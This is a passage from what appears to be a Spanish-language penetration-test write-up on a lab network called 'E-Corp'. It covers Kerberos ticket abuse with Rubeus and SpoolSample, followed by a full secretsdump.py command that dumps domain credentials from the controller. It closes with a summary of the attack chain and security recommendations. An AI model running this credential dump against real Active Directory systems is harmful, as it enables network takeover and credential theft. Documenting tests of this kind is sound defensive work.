Usando la herramienta Rubeus y SpoolSample.exe se creó un ticket para poder acceder al equipo Windows.


Convertiendo el ticket a .ccash -> .kirby desde la maquina atacante.


Corriendo 
```
proxychains secretsdump.py -k -no-pass -dc-ip 192.168.1.2 -target-ip 192.168.1.2 e-corp.local/"primary$"@primary.e-corp.local
```



se nos listarán todas las contraseñas de usuarios en la red.

De esta manera fue como se obtuvo el control del 
active directory en la red de test "E-Corp".
La obtención de credenciales de Active Directory mediante la generación de tickets y su conversión permite al atacante acceder a información sensible y obtener un control más profundo en la red.

## Conclusión 
Con éxito, se logró obtener el control del Active Directory en la red **"E-Corp"**. El acceso se obtuvo mediante :
- Una reverse shell
- Seguido de la creación de usuarios con privilegios
- Escalada de privilegios y 
- Finalmente, la obtención de credenciales de Active Directory para el control total de la red.

## Recomendaciones de Seguridad para E-Corp:

1. **Actualización y Parcheo Continuo**:
Mantener todos los sistemas y software actualizados para mitigar vulnerabilidades conocidas.

2. **Monitoreo de Tráfico de Red**:
Implementar herramientas de monitoreo Para detectar patrones inusuales de tráfico de red, especialmente conexiones salientes no autorizadas.

3. **Uso de Soluciones de Seguridad Endpoint**:
Implementar soluciones de seguridad endpoint para detectar y prevenir la ejecución de archivos maliciosos.

4. **Control de Acceso y Políticas de Usuario**:
Limitar los privilegios de los usuarios a lo estrictamente necesario y aplicar políticas de acceso basadas en roles.

5. **Auditoría de Active Directory**:
Realizar auditorías regulares de Active Directory para detectar cambios inusuales en cuentas y permisos.

6. **Monitoreo de Cuentas de Administrador**:
Establecer alertas para actividades anómalas relacionadas con cuentas de administrador.

7. **Capacitación en Concientización de Seguridad**:
Educar a los empleados sobre las tácticas comunes de ingeniería social y la importancia de prácticas de seguridad informática sólidas.

8. **Seguridad en la Capa de Red**:
Implementar firewalls y restricciones de red para limitar el tráfico no esencial y proteger contra ataques de red.

9. **Monitoreo de Active Directory**:
Implementar soluciones de monitoreo específicas para Active Directory para detectar comportamientos anómalos.

Al seguir estas recomendaciones, E-Corp puede fortalecer su postura de seguridad y reducir la superficie de ataque, mitigando el riesgo de futuros ataques similares.